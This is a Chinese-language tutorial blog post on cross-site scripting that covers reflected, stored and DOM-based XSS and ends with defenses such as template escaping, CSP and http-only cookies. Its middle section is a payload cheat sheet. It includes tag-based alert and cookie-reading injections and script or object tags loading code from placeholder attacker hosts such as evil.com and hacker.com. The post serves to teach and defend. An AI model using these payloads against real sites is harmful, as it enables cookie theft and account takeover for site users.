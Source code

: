 ```yaml
---
title: XSS(跨站脚本)漏洞及解决
date: 2021-03-11 21:12:40
categories: 前端
---
```


xss是什么
----
xss跨站脚本攻击(Cross Site Scripting)，是一种经常出现在web应用中的计算机安全漏洞，它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入的恶意html代码会被执行，从而达到恶意用户的特殊目的。
![](https://upload-images.jianshu.io/upload_images/10024246-d5e55ef5a0ced4ac.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

**本质：**浏览器把输入数据插`入页面`中，当成`脚本执行`;
**XSS分为：**
- 存储型 
      存储区域在后端数据库，插入点在HTML
- 反射型 
 存储区域在URL，插入点在HTML
- DOM型XSS
存储区域在数据库、前端存储、URL都可能发生；插入点在javascript
## 反射型XSS
- 1、攻击者构造出特殊的 URL，其中包含恶意代码。 
- 2、攻击者诱使用户点击链接，恶意代码被拼接到 HTML 中返回给浏览
器。 
- 3、浏览器解析执行。
- 4、恶意代码窃取用户数据并发送到攻击者的网站。攻击者冒充用户的行 为，调用目标网站接口执行攻击者指定的操作。

>常⻅于用户登陆、数据搜索等位置

## 存储型XSS
- 1、攻击者构造恶意代码，并提交保存到数据库。 
- 2、用户打开应用，从数据库读取恶意代码，拼接到 HTML 中返回给浏览
器。
- 3、浏览器解析执行。
- 4、恶意代码窃取用户数据并发送到攻击者的网站。攻击者冒充用户的行 为，调用目标网站接口执行攻击者指定的操作。
>常⻅于如论坛发帖、商品评论、用户信息修改等
 
 ## DOM型XSS
- 1、攻击者构造出特殊的 URL，其中包含恶意代码。
- 2、攻击者诱使用户点击链接。 
- 3、浏览器解析执行，前端取出 URL 中的恶意代码并执行。
- 4、恶意代码窃取用户数据并发送到攻击者的网站。攻击者冒充用户的行 为，调>用目标网站接口执行攻击者指定的操作。
## XSS的攻击载荷
- <script>标签：<script>标签是最直接的XSS有效载荷，脚本标记可以引用外部的JavaScript代码，也可以将代码插入脚本标记中
```
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
<script> alert("hack")</script>   #弹出hack
<script>alert(document.cookie)</script> #弹出cookie
```
<img>标签：
```
<img  src=1  onerror=alert("hack")>
<img  src=1  onerror=alert(/hack/)>
<img  src=1  onerror=alert(document.cookie)>  #弹出cookie
<img  src=1  onerror=alert(123)>      注：对于数字，可以不用引号
<img  src="javascript:alert("XSS");">
<img  dynsrc="javascript:alert('XSS')">
<img  lowsrc="javascript:alert('XSS')">
```
- <body>标签：可以使用onload属性或其他更加模糊的属性（如属性）在标记内部传递XSS有效内容background
```
<body onload=alert("XSS")>
<body background="javascript:alert("XSS")">
```
- <iframe>标签：该<iframe>标签允许另一个HTML网页的嵌入到父页面。
`IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段`
```
<iframe src=”http://evil.com/xss.html”>
```
- <input>标签：在某些浏览器中，如果标记的type属性<input>设置为image，则可以对其进行操作以嵌入脚本
```
<input type="image" src="javascript:alert('XSS');">
```
- <link>标签：<link>标签，这是经常被用来连接外部的样式表可以包含的脚本
```
<link rel="stylesheet" href="javascript:alert('XSS');">
```
- <table>标签：可以利用和标签的background属性来引用脚本而不是图像
```
<table background="javascript:alert('XSS')">
 
<td background="javascript:alert('XSS')">
```
- <div>标签：该<div>标签，类似于<table>和<td>标签也可以指定一个背景，因此嵌入的脚本。
```
<div style="background-image: url(javascript:alert('XSS'))">
 
<div style="width: expression(alert('XSS'));">
```
- <object>标签：该<object>标签可用于从外部站点脚本包含
```
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

## 防御
- 利用模板引擎 
模板引擎一般自带转义，需尽量保持最新，避免低版本漏洞
- 避免内联事件
 尽量不要用onLoad=“onload(‘{{data}}’)”
onClick=“go(‘{{action}}’)” 这种写法
- 避免拼接 HTML
使用成熟的渲染框架，并保持新版本+后端过滤，如vue，angular等 
使用成熟的过滤器，并保持新版本，如ESAPI，Dompurify等
- 增加攻击难度，降低攻击后果 
严格白名单、规范的CSP、限制⻓度、http-only等
